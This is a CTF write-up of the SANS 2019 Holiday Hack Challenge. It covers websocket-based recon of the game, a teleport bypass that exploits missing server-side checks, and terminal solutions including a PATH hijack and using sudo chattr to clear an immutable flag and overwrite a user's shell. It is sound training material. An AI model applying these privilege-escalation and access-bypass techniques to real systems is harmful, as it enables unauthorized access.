


# Kringlecon 2: Turtle Doves
This writeup is the collaborative work of:
- Polle Vanhoof
- Jan D'Herdt
- Honorable Mention goes out to Tudor Azoitei

For the 2019 SANS holiday hack challenge, Jan and myself decided to work together and tackle the interesting challenges presented by the SANS team. In the end, we completed all the challenges and objectives. As a nice bonus, we even stubled upon an oversight that allowed us to bypass all challenges and complete the game without completing any challenge.

We hope you enjoy this writeup as much as we enjoyed the game.

-----------------------------
## Table of Contents

This writeup is split into several sections

1. [Information Gathering](#information-gathering)
   1. [Interacting with the game over websocket](#interacting-with-the-game-over-websocket)
   2. [Locations and Notable Characters](#locations-and-notable-characters)
   3. [Oversight: End-Credits Bypass](#oversight-end-credits-bypass)
2. [Terminal Challenges](#terminal-challenges)
   1. [Escape Ed](#escape-ed)
   2. [Frosty Keypad](#frosty-keypad)
   3. [Linux Path](#linux-path)
   4. [Nyanshell](#nyanshell)
   5. [Mongo Pilfer](#mongo-pilfer)
   6. [Smart Braces](#smart-braces)
   7. [Holiday Hack Trail](#holiday-hack-trail)
   8. [Graylog](#graylog)
   9. [Powershell Laser](#powershell-laser)
   10. [Zeek JSON Analysis](#zeek-json-analysis)
3. [Objectives](#objectives)
   0. [Talk to Santa in the Quad](#talk-to-santa-in-the-quad)
   1. [Find the Turtle Doves](#find-the-turtle-doves)
   2. [Unredact Threatening Document](#unredact-threatening-document)
   3. [Windows Log Analysis: Evaluate Attack Outcome](#windows-log-analysis-evaluate-attack-outcome)
   4. [Windows Log Analysis: Determine Attacker Technique](#windows-log-analysis-determine-attacker-technique)
   5. [Network Log Analysis: Determine Compromised System](#network-log-analysis-determine-compromised-system)
   6. [Splunk](#splunk)
   7. [Get Access To The Steam Tunnels](#get-access-to-the-steam-tunnels)
   8. [Bypassing the Frido Sleigh CAPTEHA](#bypassing-the-frido-sleigh-capteha)
   9. [Retrieve Scraps of Paper from Server](#retrieve-scraps-of-paper-from-server)
   10. [Recover Cleartext Document](#recover-cleartext-document)
   11. [Open the Sleigh Shop Door](#open-the-sleigh-shop-door)
   12. [Filter Out Poisoned Sources of Weather Data](#filter-out-poisoned-sources-of-weather-data)
4. [Addendum](#addendum)

-----------------------------
## Information Gathering
### Interacting with the game over websocket

The game started on a Friday evening and my colleague and I had agreed to start it together on Monday.
As a result, I was eagerly looking at the start of the event and trying to do anything other than actually working on the challenges.

I figured I would see how the game worked behind the scenes and started looking at the websocket traffic between my client and the server.
This quickly turned into a small project of itself. Soon I had a small script running and I decided I would use it to handle most of the information gathering.
A few hours later and [santas_little_helper.py](https://github.com/pollev/santas_little_helper) was born.

The following sections group the data we collected through the script.

-----------------------------
### Locations and Notable Characters
#### Zone: The Quad
Map:
```
           111            111
           111            111
           111            111
           111            111
           111            111
           111            111
   1111111111111111111111111111111111111
   1111111111111111111111111111111111111
   1111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 11111111111111111     11111111111111111
111111111111111111     111111111111111111
111111111111111111     111111111111111111
 11111111111111111     111111111111111
 11111111111111111     111111111111111
 1111111111111111111111111111111111111
 1111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 1111111111111111111 1111111111111111111
 1111111111111111111 1111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
 111111111111111111111111111111111111111
                   111
```

NPCs:
- Santa
- Tangle Coalbox

Terminals:
- Frosty Keypad

#### Zone: Student Union
Map:
```
1   11   1    11   1   1
11 1111 11    111 111 11
1111111111 1111111111111
111111111111111111111111 1
111111111111111111111111 1
11111111111111111111111111
111111111111  111111111111
  1111111111  1111111111111
  1111111111111111111111111
111111111111111111111111111
111111111111111111111111111
   111            111
```

NPCs:
- Shinny Upatree
- Kent Tinseltooth
- Google Booth
- SANS.edu Booth
- Splunk Booth
- Swag Booth
- Michael and Jane - Two Turtle Doves

Terminals:
- Smart Braces

#### Zone: Sleigh Workshop
Map:
```
           1
   111  111111
    11  1111
111 11  1111
11111111111111
11111111111111
1111111111 111
1111111111 111
1111  1  11111
11111111111111
 1
```

NPCs:
- Wunorse Openslae
- Krampus
- The Tooth Fairy

Terminals:
- Zeek JSON Analysis
- Sleigh Route Finder

#### Zone: The Bell Tower
Map:
```
111111
111
111 1 1
1 111 1
1 11111
1111111
1111111
      1
```

NPCs:
- Krampus
- The Tooth Fairy
- Santa
- Tooth

Terminals:

#### Zone: Hermey Hall
Map:
```
      1     1
    1111  111111
    1111  111111
  11111111111111  1   1   1   1   1   1   1
1111111111111111 111111111111111111111111111
11111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111
  11111111111111
  11111111111111
        111
```

NPCs:
- SugarPlum Mary

Terminals:
- Linux Path

#### Zone: NetWars
Map:
```
111111111111111
111111111111  1
11    111     1
111111111111111
111111111111111
111111111111111
11    111    11
111111111111111
111111111111111
111111111111111
       1
```

NPCs:
- Holly Evergreen

Terminals:
- Mongo Pilfer

#### Zone: Speaker UNpreparedness Room
Map:
```
   11111
   11111
11111  1
11111  1
11111111
11111111
11111111
  1
```

NPCs:
- Alabaster Snowball

Terminals:
- Nyanshell

#### Zone: Track 1 to Track 7
Map:
```
1111111
1111111
1111111
1111111
1111111
1111111
1111111
1111111
1111111
   1
```

NPCs:

Terminals:

#### Zone: The Laboratory
Map:
```
111111111
1111111111 111
1111111111 111
111    1111111
11     11111111
11  11111111111
111111111111111
111111111111111
11111111111111
```

NPCs:
- Sparkle Redberry
- Professor Banas

Terminals:
- Xmas Cheer Laser

#### Zone: Dorm
Map:
```
         11111111111111
           1111  111111
           1111  111111            1
1111111111111111111111111111  1111111
1111111111111111111111111111  1111111
111111111111 111111 11111111111111111
1111111111111111111111111111111111111
         11111111111111
         11111111111111
               111
```

NPCs:
- Pepper Minstix
- Minty Candycane

Terminals:
- Holiday Hack Trail
- Graylog

#### Zone: Minty's Dorm Room
Map:
```
      1
  1   1
  111111
  111111
11111111
11111111
  1
```

NPCs:

Terminals:
- Key Cutting Machine

#### Zone: Minty's Closet
Map:
```
 1
 11
111
111
 1
```

NPCs:

Terminals:
- Mysterious Locked Door

#### Zone: Steam Tunnels
Map:
```
 11111
11111111111111
111111111111111
111111111111111
 11111      111
   1        111
            111
            111
            111
            111
            111
            111
            111
            111       1111111   1
            111      111111111 11
            1111111111111111 1111
            1111111111111111 1111
            111111111111111111111
                     111111111111
```

NPCs:
- Krampus

Terminals:
- Frido Sleigh Contest

#### Zone: Train Station
Map:
```
         11111
         11111
         11111
         11111
11111111111111111111111
111111111111111111111
  1111111111 1111  11
  1111111111 1111  1111
11111111111111111111111
11111111111111111111111
11111111111111111111111
11111111111111111111111
```

NPCs:
- Bushy Evergreen
- Santa

Terminals:
- Escape Ed


-----------------------------
### Oversight: End-Credits Bypass
While working on the data gathering script, I realized that I would need to automate the movement from room to room. The script could only pull data for a location after physically moving my character there. So I started working on a 'teleportation' option. The script interacts with the backend directly to move my character to each room, it then grabs all zone information it finds and stores it.

That info includes the new exit-portals for that specific zone. That means that, once we enter a zone, we can automatically figure out new locations we can go to and the script can then automate going to those new zones as well.

It turns out however that certain zones, which are supposed to only be accessible after completion of an objective, are still accessible if interacting with the websocket in this manner.
It is the client which refuses to enter these zones. The portals to the zones still exist, and we can force our way in by sending the appropriate command to the server. It seems the devs forgot to do some server side validation here.

After discovering this, I added a 'teleportation' feature to the script. Which can teleport your character directly to any zone (including the finale zone)
```
polle@polle-pc$ ./santas_little_helper.py -t

.▄▄ ·  ▄▄▄·  ▐ ▄ ▄▄▄▄▄ ▄▄▄· .▄▄ ·     ▄▄▌  ▪  ▄▄▄▄▄▄▄▄▄▄▄▄▌  ▄▄▄ .     ▄ .▄▄▄▄ .▄▄▌   ▄▄▄·▄▄▄ .▄▄▄         {_}
▐█ ▀. ▐█ ▀█ •█▌▐█•██  ▐█ ▀█ ▐█ ▀.     ██•  ██ •██  •██  ██•  ▀▄.▀·    ██▪▐█▀▄.▀·██•  ▐█ ▄█▀▄.▀·▀▄ █·      *-=\
▄▀▀▀█▄▄█▀▀█ ▐█▐▐▌ ▐█.▪▄█▀▀█ ▄▀▀▀█▄    ██▪  ▐█· ▐█.▪ ▐█.▪██▪  ▐▀▀▪▄    ██▀▐█▐▀▀▪▄██▪   ██▀·▐▀▀▪▄▐▀▀▄          \____(
▐█▄▪▐█▐█ ▪▐▌██▐█▌ ▐█▌·▐█ ▪▐▌▐█▄▪▐█    ▐█▌▐▌▐█▌ ▐█▌· ▐█▌·▐█▌▐▌▐█▄▄▌    ██▌▐▀▐█▄▄▌▐█▌▐▌▐█▪·•▐█▄▄▌▐█•█▌        _|/---\
 ▀▀▀▀  ▀  ▀ ▀▀ █▪ ▀▀▀  ▀  ▀  ▀▀▀▀     .▀▀▀ ▀▀▀ ▀▀▀  ▀▀▀ .▀▀▀  ▀▀▀     ▀▀▀ · ▀▀▀ .▀▀▀ .▀    ▀▀▀ .▀  ▀        \        \
 - A Kringlecon 2019 tool by Polle Vanhoof

[+] Loading portal data from portal_data.json
[+] Loading extra info from extra_info.json
[*] Starting login for user d8489526@urhen.com
[-] WARNING: Plaintext credentials in script
[*] Server new current location: trainstation

[+] Starting teleportation module. Where would you like to go?
[>] Your current zone is trainstation
- quad (The Quad)
- studentunion (Student Union)
- sleighshop (Sleigh Workshop)
- finale (The Bell Tower)
- hermeyhall (Hermey Hall)
- netwars (NetWars)
- speakerroom (Speaker UNpreparedness Room)
- track1 (Track 1)
- track2 (Track 2)
- track3 (Track 3)
- track4 (Track 4)
- track5 (Track 5)
- track6 (Track 6)
- track7 (Track 7)
- library (The Laboratory)
- dorm (Dorm)
- mintydorm (Minty's Dorm Room)
- mintycloset (Minty's Closet)
- steamtunnels (Steam Tunnels)
- trainstation (Train Station)

Please enter the zone shortname you would like to teleport to: finale
[!] Full multi-zone move from trainstation to finale
[!] Moving from room trainstation to quad_north
[*] Server new current location: quad
[!] Moving from room quad to unionleft
[*] Server new current location: studentunion
[!] Moving from room studentunion to sleighshop
[*] Server new current location: sleighshop
[!] Moving from room sleighshop to finale
[*] Server new current location: finale

[+] DONE!
```
This allows you to access the credits without ever completing a single challenge.


... And that is the story of how I had to tell my colleague why I had already completed the game even though we had agreed not to play. These things happen...

-----------------------------
## Terminal Challenges

Alright, with that out of the way, let us move on to the actual challenges!

### Escape Ed
#### Context
Initial Dialog:
Bushy Evergreen
> Hi, I'm Bushy Evergreen.  Welcome to Elf U!
> I'm glad you're here. I'm the target of a terrible trick.
> Pepper Minstix is at it again, sticking me in a text editor.
> Pepper is forcing me to learn ed.
> Even the hint is ugly. Why can't I just use Gedit?
> Please help me just quit the grinchy thing.


Completed Dialog:
Bushy Evergreen
> Wow, that was much easier than I'd thought.
> Maybe I don't need a clunky GUI after all!
> Have you taken a look at the password spray attack artifacts?
> I'll bet that DeepBlueCLI tool is helpful.
> You can check it out on GitHub.
> It was written by that Eric Conrad.
> He lives in Maine - not too far from here!


Challenge-url:  
[https://docker2019.kringlecon.com/?challenge=edescape](https://docker2019.kringlecon.com/?challenge=edescape)


Location:  
trainstation (Train Station)


#### MOTD
When we start the terminal, we are greeted with the following message:
```
                  ........................................
               .;oooooooooooool;,,,,,,,,:loooooooooooooll:
             .:oooooooooooooc;,,,,,,,,:ooooooooooooollooo:
           .';;;;;;;;;;;;;;,''''''''';;;;;;;;;;;;;,;ooooo:
         .''''''''''''''''''''''''''''''''''''''''';ooooo:
       ;oooooooooooool;''''''',:loooooooooooolc;',,;ooooo:
    .:oooooooooooooc;',,,,,,,:ooooooooooooolccoc,,,;ooooo:
  .cooooooooooooo:,''''''',:ooooooooooooolcloooc,,,;ooooo,
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooooc,,,;ooo,
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooooc,,,;l'
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooooc,,..
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooooc.
  coooooooooooooo,,,,,,,,,;ooooooooooooooloooo:.
  coooooooooooooo,,,,,,,,,;ooooooooooooooloo;
  :llllllllllllll,'''''''';llllllllllllllc,


Oh, many UNIX tools grow old, but this one's showing gray.
That Pepper LOLs and rolls her eyes, sends mocking looks my way.
I need to exit, run - get out! - and celebrate the yule.
Your challenge is to help this elf escape this blasted tool.

-Bushy Evergreen

Exit ed.

1100
```

#### Solution
Ed is a really old text editor, we can exit it with a simple command:
```
Type 'Q' and enter
```

-----------------------------
### Frosty Keypad
#### Context
Initial Dialog:
Tangle Coalbox
> Hey kid, it's me, Tangle Coalbox.
> I'm sleuthing again, and I could use your help.
> Ya see, this here number lock's been popped by someone.
> I think I know who, but it'd sure be great if you could open this up for me.
> I've got a few clues for you.
>  1. One digit is repeated once.
>  2. The code is a prime number.
>  3. You can probably tell by looking at the keypad which buttons are used.


Completed Dialog:
Tangle Coalbox
> Yep, that's it. Thanks for the assist, gumshoe.
> Hey, if you think you can help with another problem, Prof. Banas could use a hand too.
> Head west to the other side of the quad into Hermey Hall and find him in the Laboratory.


Challenge-url:  
[https://keypad.elfu.org?challenge=keypad](https://keypad.elfu.org?challenge=keypad)


Location:  
quad (The Quad)


#### Solution
We have a look at the door keypad and see that the keys "1", "3" and "7" have been used.
We are also told that one of those numbers is used twice.

The immediate thing to try would be "1337" (or 'leet'). However this number is not prime. We could solve this challenge by grabbing a list of primes from the internet and removing all entries that have a digit not equal to 1, 3 or 7. We could then remove all entries that do not have a duplicate digit. We can then just write a script to try all the remaining possibilities.

Or you could do what we did, try the first options that come to your mind, one of them being '7331' (the reverse of 1337) and get lucky.


That's all there is to this challenge, we do however find a little easter egg on the wall inside the dorm after we enter the now unlocked door. It seems the ElfU students need a reminder sometimes and have written the code down on the wall.


-----------------------------
### Linux Path
#### Context
Initial Dialog:
SugarPlum Mary
> Oh me oh my - I need some help!
> I need to review some files in my Linux terminal, but I can't get a file listing.
> I know the command is *ls*, but it's really acting up.
> Do you think you could help me out? As you work on this, think about these questions:
> 1. Do the words in green have special significance?
> 2. How can I find a file with a specific name?
> 3. What happens if there are multiple executables with the same name in my $PATH?


Completed Dialog:
SugarPlum Mary
> Oh there they are!  Now I can delete them.  Thanks!
> Have you tried the Sysmon and EQL challenge?
> If you aren't familiar with Sysmon, Carlos Perez has some great info about it.
> Haven't heard of the Event Query Language?
> Check out some of [Ross Wolf](https://www.endgame.com/our-experts/ross-wolf)'s work on EQL or that blog post by Josh Wright in your badge.


Challenge-url:  
[https://docker2019.kringlecon.com/?challenge=path](https://docker2019.kringlecon.com/?challenge=path)


Location:  
Hermey Hall

#### MOTD
When we start the terminal, we are greeted with the following message:
```
K000K000K000KK0KKKKKXKKKXKKKXKXXXXXNXXXX0kOKKKK0KXKKKKKKK0KKK0KK0KK0KK0KK0KK0KKKKKK
00K000KK0KKKKKKKKKXKKKXKKXXXXXXXXNXXNNXXooNOXKKXKKXKKKXKKKKKKKKKK0KKKKK0KK0KK0KKKKK
KKKKKKKKKKKXKKXXKXXXXXXXXXXXXXNXNNNNNNK0x:xoxOXXXKKXXKXXKKXKKKKKKKKKKKKKKKKKKKKKKKK
K000KK00KKKKKKKKXXKKXXXXNXXXNXXNNXNNNNNWk.ddkkXXXXXKKXKKXKKXKKXKKXKKXK0KK0KK0KKKKKK
00KKKKKKKKKXKKXXKXXXXXNXXXNXXNNNNNNNNWXXk,ldkOKKKXXXXKXKKXKKXKKXKKKKKKKKKK0KK0KK0XK
KKKXKKKXXKXXXXXNXXXNXXNNXNNNNNNNNNXkddk0No,;;:oKNK0OkOKXXKXKKXKKKKKKKKKKKKK0KK0KKKX
0KK0KKKKKXKKKXXKXNXXXNXXNNXNNNNXxl;o0NNNo,,,;;;;KWWWN0dlk0XXKKXKKXKKXKKKKKKKKKKKKKK
KKKKKKKKXKXXXKXXXXXNXXNNXNNNN0o;;lKNNXXl,,,,,,,,cNNNNNNKc;oOXKKXKKXKKXKKXKKKKKKKKKK
XKKKXKXXXXXXNXXNNXNNNNNNNNN0l;,cONNXNXc',,,,,,,,,KXXXXXNNl,;oKXKKXKKKKKK0KKKKK0KKKX
KKKKKKXKKXXKKXNXXNNXNNNNNXl;,:OKXXXNXc''',,''''',KKKKKKXXK,,;:OXKKXKKXKKX0KK0KK0KKK
KKKKKKKKXKXXXXXNNXXNNNNW0:;,dXXXXXNK:'''''''''''cKKKKKKKXX;,,,;0XKKXKKXKKXKKK0KK0KK
XXKXXXXXXXXXXNNNNNNNNNN0;;;ONXXXXNO,''''''''''''x0KKKKKKXK,',,,cXXKKKKKKKKXKKK0KKKX
KKKKKKKXKKXXXXNNNNWNNNN:;:KNNXXXXO,'.'..'.''..':O00KKKKKXd'',,,,KKXKKXKKKKKKKKKKKKK
KKKKKXKKXXXXXXXXNNXNNNx;cXNXXXXKk,'''.''.''''.,xO00KKKKKO,'',,,,KK0XKKXKKK0KKKKKKKK
XXXXXXXXXKXXXXXXXNNNNNo;0NXXXKKO,'''''''.'.'.;dkOO0KKKK0;.'',,,,XXXKKK0KK0KKKKKKKKX
XKKXXKXXXXXXXXXXXNNNNNcoNNXXKKO,''''.'......:dxkOOO000k,..''',,lNXKXKKXKKK0KKKXKKKK
KXXKKXXXKXXKXXXXXXXNNNoONNXXX0;'''''''''..'lkkkkkkxxxd'...'''',0N0KKKKKXKKKKKK0XKKK
XXXXXKKXXKXXXXXXXXXXXXOONNNXXl,,;;,;;;;;;;d0K00Okddoc,,,,,,,,,xNNOXKKKKKXKKKKKKKXKK
XXXXXXXXXXXXXXXXXXXXXXXONNNXx;;;;;;;;;,,:xO0KK0Oxdoc,,,,,,,,,oNN0KXXKKXKKXKKKKKKKXK
XKXXKXXXXXXXXXXXXXXXXXXXXWNX:;;;;;;;;;,cO0KKKK0Okxl,,,,,,,,,oNNK0NXXXXXXXXXKKKKKKKX
XXXXXXXXXXXXXXXXXXXXXXXNNNWNc;;:;;;;;;xKXXXXXXKK0x,,,,,,,,,dXNK0NXXXXXXXXXXXKKXKKKK
XKXXXXXXXXXXXXXXXXXXXXNNWWNWd;:::;;;:0NNNNNNNNNXO;,,,,,,,:0NN0XNXNXXXXXXXXXXXKKXKKX
NXXXXXXXXXXXXXXXXXXXXXNNNNNNNl:::;;:KNNNNNNNNNNO;,,,,,,;xNNK0NXNXXNXXXXXXKXXKKKKXKK
XXNNXNNNXXXXXXXXXXXXXNNNNNNNNNkl:;;xWWNNNNNWWWk;;;;;;;xNNKKXNXNXXNXXXXXXXXXXXKXKKXK
XXXXXNNNNXNNNNXXXXXXNNNNNNNNNNNNKkolKNNNNNNNNx;;;;;lkNNXNNNNXXXNXXNXXXXXXXXXXXKKKKX
XXXXXXXXXXXNNNNNNNNNNNNNNNNNNNNNNNNNKXNNNNWNo:clxOXNNNNNNNNXNXXXXXXXXXXXXXXXKKXKKKK
XXXXNXXXNXXXNXXNNNNNWWWWWNNNNNNNNNNNNNNNNNWWNWWNWNNWNNNNNNNNXXXXXXNXXXXXXXXXXKKXKKX
XNXXXXNNXXNXXNNXNXNWWWWWWWWWNNNNNNNNNNNNNWWWWNNNNNNNNNNNNNNNNNNNNNXNXXXXNXXXXXXKXKK
XXXXNXXNNXXXNXXNXXNWWWNNNNNNNNNWWNNNNNNNNWWWWWWNWNNNNNNNNNNNNNNNXXNXNXXXXNXXXXKXKXK

I need to list files in my home/
To check on project logos
But what I see with ls there,
Are quotes from desert hobos...

which piece of my command does fail?
I surely cannot find it.
Make straight my path and locate that-
I'll praise your skill and sharp wit!

Get a listing (ls) of your current directory.
```

#### Solution
We quickly see that someone has messed with the path.

```
elf@bd2b9636c43a:~$ ls
This isn't the ls you're looking for
elf@bd2b9636c43a:~$ which ls
/usr/local/bin/ls
elf@bd2b9636c43a:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
There is a fake `ls` binary in /usr/local/bin. And that directory is first in our path.
As a result, linux will search that path first and find the bad `ls` binary and use it.

We could now fix the path, or just use the correct binary directly.
So we just run `/bin/ls` instead.

```
elf@bd2b9636c43a:~$ /bin/ls
```

That's it. We are done.


-----------------------------
### Nyanshell
#### Context
Initial Dialog:
Alabaster Snowball
> Welcome to the Speaker UNpreparedness Room!
> My name's Alabaster Snowball and I could use a hand.
> I'm trying to log into this terminal, but something's gone horribly wrong.
> Every time I try to log in, I get accosted with ... a hatted cat and a toaster pastry?
> I thought my shell was Bash, *not* flying feline.
> When I try to overwrite it with something else, I get permission errors.
> Have you heard any chatter about immutable files? And what is `sudo -l` telling me?

Completed Dialog:
Alabaster Snowball
> Who would do such a thing??  Well, it IS a good looking cat.
> Have you heard about the Frido Sleigh contest?
> There are some serious prizes up for grabs.
> The content is strictly for elves. Only elves can pass the CAPTEHA challenge required to enter.
> I heard there was a talk at KCII about using machine learning to defeat challenges like this.
> I don't think anything could ever beat an elf though!


Challenge-url:  
[https://docker2019.kringlecon.com/?challenge=nyanshell](https://docker2019.kringlecon.com/?challenge=nyanshell)

Location:  
Speaker UNpreparedness Room


#### MOTD
When we start the terminal, we are greeted with the following message:
```
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
░░░░░░░░░░▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄░░░░░░░░░
░░░░░░░░▄▀░░░░░░░░░░░░▄░░░░░░░▀▄░░░░░░░
░░░░░░░░█░░▄░░░░▄░░░░░░░░░░░░░░█░░░░░░░
░░░░░░░░█░░░░░░░░░░░░▄█▄▄░░▄░░░█░▄▄▄░░░
░▄▄▄▄▄░░█░░░░░░▀░░░░▀█░░▀▄░░░░░█▀▀░██░░
░██▄▀██▄█░░░▄░░░░░░░██░░░░▀▀▀▀▀░░░░██░░
░░▀██▄▀██░░░░░░░░▀░██▀░░░░░░░░░░░░░▀██░
░░░░▀████░▀░░░░▄░░░██░░░▄█░░░░▄░▄█░░██░
░░░░░░░▀█░░░░▄░░░░░██░░░░▄░░░▄░░▄░░░██░
░░░░░░░▄█▄░░░░░░░░░░░▀▄░░▀▀▀▀▀▀▀▀░░▄▀░░
░░░░░░█▀▀█████████▀▀▀▀████████████▀░░░░
░░░░░░████▀░░███▀░░░░░░▀███░░▀██▀░░░░░░
░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░

nyancat, nyancat
I love that nyancat!
My shell's stuffed inside one
Whatcha' think about that?

Sadly now, the day's gone
Things to do!  Without one...
I'll miss that nyancat
Run commands, win, and done!

Log in as the user alabaster_snowball with a password of Password2, and land in a Bash prompt.

Target Credentials:

username: alabaster_snowball
password: Password2
```

#### Solution
If we just try to `su` to alabaster_snowball, we see something very unexpected happen:


We look at '/etc/passwd' to see what shell is being loaded for alabaster snowball:

```
elf@1fd924a3fa2c:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
elf:x:1000:1000::/home/elf:/bin/bash
alabaster_snowball:x:1001:1001::/home/alabaster_snowball:/bin/nsh
```

We notice that alabaster_snowball is running the strange shell `/bin/nsh`
if we look at this shell we see its permissions and notice that we should be able to overwrite it.
However, if we actually try, we get a permission denied

```
elf@1fd924a3fa2c:~$ ls -la /bin/nsh
-rwxrwxrwx 1 root root 75680 Dec 11 17:40 /bin/nsh
elf@1fd924a3fa2c:~$ echo '' > /bin/nsh
-bash: /bin/nsh: Operation not permitted
```
Looking at `sudo -l` we see that we are only allowed to run one specific command as root:
```
elf@1fd924a3fa2c:~$ sudo -l
Matching Defaults entries for elf on 1fd924a3fa2c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elf may run the following commands on 1fd924a3fa2c:
    (root) NOPASSWD: /usr/bin/chattr
```
So we can run `chattr`
The `chattr` command is used to change file attributes on a Linux file system.
Lets have a look at the current attributes for `/bin/nsh`

```
elf@1fd924a3fa2c:~$ lsattr /bin/nsh
----i---------e---- /bin/nsh
```

We see that the immutable flag is set. That is why we cannot overwrite the file.
We can however use the `chattr` command to remove this flag ourself.

```
elf@1fd924a3fa2c:~$ sudo /usr/bin/chattr -i /bin/nsh
elf@1fd924a3fa2c:~$ lsattr /bin/nsh
--------------e---- /bin/nsh
```

Indeed, now we can overwrite the shell. So we just overwrite it with the real bash shell and we are ready.
We then just `su` to alabaster_snowball with the provided credentials and we are done.

```
elf@1fd924a3fa2c:~$ cp /bin/bash /bin/nsh
elf@1fd924a3fa2c:~$ su alabaster_snowball
Password:
Loading, please wait......


You did it! Congratulations!
```

That's all there is to this challenge!

-----------------------------
### Mongo Pilfer
#### Context
Initial Dialog:
Holly Evergreen
